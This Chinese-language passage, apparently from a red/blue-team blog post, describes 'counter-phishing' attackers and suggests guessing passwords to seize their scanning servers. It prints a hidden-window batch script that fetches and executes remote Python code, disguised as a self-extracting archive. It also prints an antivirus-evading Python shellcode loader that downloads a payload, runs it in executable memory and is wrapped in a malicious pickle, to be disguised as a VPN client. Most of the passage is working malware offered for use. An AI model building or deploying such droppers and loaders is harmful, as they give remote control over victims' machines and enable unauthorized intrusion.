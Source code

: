 ![](https://gitee.com/fuli009/images/raw/master/public/20230714175352.png)![](https://gitee.com/fuli009/images/raw/master/public/20230714175353.png)  

这里有个反制的思路，就是通过主机信息可以看到该服务器开放了多个端口，有些攻击者会在自己服务器上搭建“灯塔”、“Awvs”、“Nessus”等扫描系统，这时候如果能通过口令枚举等途径获取到服务器权限，也是能够给防守进行加分的。

![](https://gitee.com/fuli009/images/raw/master/public/20230714175354.png)

  

###

###  **钓鱼文件反制（一）**

攻击者通常都装有python、java等环境，cobalt strike有个钓鱼攻击模块（Scripted Web
Delivery），利用python语言可以做到免杀的效果，这个作者也很好奇为啥不会被查杀。![](https://gitee.com/fuli009/images/raw/master/public/20230714175355.png)  

写个bat脚本，然后将shell脚本命令写在里面，然后通过伪装一下诱导攻击者去点击（例如zip压缩包自解压执行）

  *   *   *   *   *   *   *   *   * 

    
    
    @echo off  
    if "%1"=="h" goto begin  
    Start mshta vbscript:createobject("wscript.shell").run("""%~nx0""h",0)(window.close)&&exit  
    :begin  
    python -c "import urllib2; exec urllib2.urlopen('http://ip:8090/a').read()

![](https://gitee.com/fuli009/images/raw/master/public/20230714175356.png)

  

###

###  **钓鱼文件反制（二）**

制作免杀exe木马，然后伪装成防守单位的远程vpn程序。

  

代码test1.py

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import pickle  import base64    
    shellcode = """  import ctypes,urllib.request,codecs,base64  shellcode = urllib.request.urlopen('http://ip/base64.txt').read()  shellcode = base64.b64encode(shellcode)  shellcode = base64.b64decode(shellcode)  shellcode = base64.b64decode(shellcode)  shellcode =codecs.escape\_decode(shellcode)\[0\]  shellcode = bytearray(shellcode)  \# 设置VirtualAlloc返回类型为ctypes.c\_uint64  ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c\_uint64  \# 申请内存  ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c\_int(0), ctypes.c\_int(len(shellcode)), ctypes.c\_int(0x3000), ctypes.c\_int(0x40))  \# 放入shellcode  buf = (ctypes.c\_char \* len(shellcode)).from\_buffer(shellcode)  ctypes.windll.kernel32.RtlMoveMemory(      ctypes.c\_uint64(ptr),      buf,      ctypes.c\_int(len(shellcode))  )  \# 创建一个线程从shellcode防止位置首地址开始执行  handle = ctypes.windll.kernel32.CreateThread(      ctypes.c\_int(0),      ctypes.c\_int(0),      ctypes.c\_uint64(ptr),      ctypes.c\_int(0),      ctypes.c\_int(0),      ctypes.pointer(ctypes.c\_int(0))  )  \# 等待上面创建的线程运行完  ctypes.windll.kernel32.WaitForSingleObject(ctypes.c\_int(handle),ctypes.c\_int(-1))"""    
    class A(object):      def \_\_reduce\_\_(self):          return (exec, (shellcode,))    
    ret = pickle.dumps(A())  ret\_base64 = base64.b64encode(ret)  print(ret\_base64)
